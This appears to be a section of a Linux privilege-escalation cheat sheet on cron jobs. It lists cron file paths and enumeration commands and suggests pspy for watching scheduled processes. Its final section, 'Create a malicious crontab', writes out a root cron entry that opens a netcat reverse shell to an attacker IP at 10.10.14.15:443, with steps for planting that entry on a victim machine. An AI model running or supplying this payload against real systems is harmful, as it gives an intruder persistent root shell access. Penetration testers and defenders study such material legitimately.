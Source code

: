 ## Scheduled tasks

#### Cron jobs

Check if you have access with write permission on these files.\
Check inside the file, to find other paths with write permissions.

```bash
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```bash
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

#### Create a malicious crontab

```bash
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f ' >> /etc/crontab

# if you don't have direct write access, try...
## locally
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f ' >> crontab

# on victim
upload crontab
```
